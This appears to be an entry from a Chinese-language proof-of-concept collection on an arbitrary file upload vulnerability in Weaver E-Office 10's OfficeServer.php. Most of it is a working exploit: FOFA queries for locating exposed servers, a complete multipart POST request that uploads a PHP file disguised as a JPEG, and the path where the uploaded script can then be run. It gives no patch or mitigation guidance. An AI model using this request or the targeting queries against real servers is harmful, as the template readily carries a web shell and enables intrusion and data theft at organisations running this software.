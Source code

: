 ## 泛微E-Office10-OfficeServer任意文件上传漏洞

  泛微OA E-0ffice 10 OfficeServer.php 存在任意文件上传漏洞，攻击者通过漏洞可以获取到服务器敏感信息。

## fofa

```
app="泛微-EOffice"

body="eoffice_loading_tip" && body="eoffice10"
```



## poc

```
POST /eoffice10/server/public/iWebOffice2015/OfficeServer.php HTTP/1.1
Host: xxx.xxx.xxx.xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 395
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJjb5ZAJOOXO7fwjs
Accept-Encoding: gzip, deflate
Connection: close
 
------WebKitFormBoundaryJjb5ZAJOOXO7fwjs
Content-Disposition: form-data; name="FileData"; filename="1.jpg"
Content-Type: image/jpeg
 
<?php phpinfo();unlink(__FILE__);?>
------WebKitFormBoundaryJjb5ZAJOOXO7fwjs
Content-Disposition: form-data; name="FormData"
 
{'USERNAME':'','RECORDID':'undefined','OPTION':'SAVEFILE','FILENAME':'test12.php'}
------WebKitFormBoundaryJjb5ZAJOOXO7fwjs--
```

![image-20240524231729186](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405242317261.png)



文件路径

```
http://xxx.xxx.xxx.xxx/eoffice10/server/public/iWebOffice2015/Document/test12.php
```

